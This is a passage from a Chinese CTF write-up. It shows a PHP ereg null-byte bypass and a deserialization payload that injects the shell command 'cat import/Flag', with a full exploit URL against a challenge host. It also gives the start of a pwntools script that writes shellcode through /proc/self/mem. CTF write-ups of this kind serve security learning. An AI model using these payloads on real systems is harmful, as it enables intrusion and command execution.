 但是注册用户处可注册同名用户，注册用户名为c3tlwDmIn23的用户然后登陆即可

### 工控系统的敏感消息遭泄漏

Git源码泄露可拿到源码

```
if(isset($ad)){
    // can bypass
    if(ereg("^[a-zA-Z0-9]+$", $ad) === FALSE)
    {
        echo '<script>alert("Sorry ! Again !")</script>';
    }
    elseif(strpos($ad, '--') !== FALSE)
    {
        echo "Ok Evrything will be fine!<br ><br >";
        // $secret不能包含./
				if (stripos($secret, './') > 0) {
					die();
				}
        unserialize($secret);
    }
    else
    {
        echo '<script>alert("Sorry ! You must have --")</script>';
    }
 }
```

ereg函数可被\x00阶段

所以ad可赋值为`a%00--`

然后进入反序列化流程，构造反序列化数据如下，__wakeup可设置属性数量大于真实数量绕过(真实数量为2，这里设置为3)

```
O:6:"Record":3:{s:4:"file";s:23:"Me.php; cat import/Flag";}
```

```
http://47.104.99.231:20003/index2.php?file=Flag&ad=a%00--&secret=O%3A6%3A%22Record%22%3A3%3A{s%3A4%3A%22file%22%3Bs%3A23%3A%22Me.php%3B%20cat%20import%2fFlag%22%3B}
```

## Pwn

### 文件管理器 pwn

- 题目描述

> 这题给了一个FTP程序，可以对目标主机上的任意文件进行读写，这样就可以对/proc/self/mem这个进行进行操作，而/proc/self/mem这个文件是与当前程序的内存进行绑定的，而且可以直接修改内存任意数据，故写一段shellcode进去，直接执行就可以了

```
from pwn import *
import threading
context(arch = 'i386', os = 'linux', endian = 'little')
context.log_level = 'debug'

def login(p, name):
	p.recvuntil(':')
	p.sendline(name)

def read_file(p, name, offset, len):
	p.recvuntil('\x87\xba\x0a')
	p.sendline('1')
	p.recvuntil(':')
	p.sendline(name)
```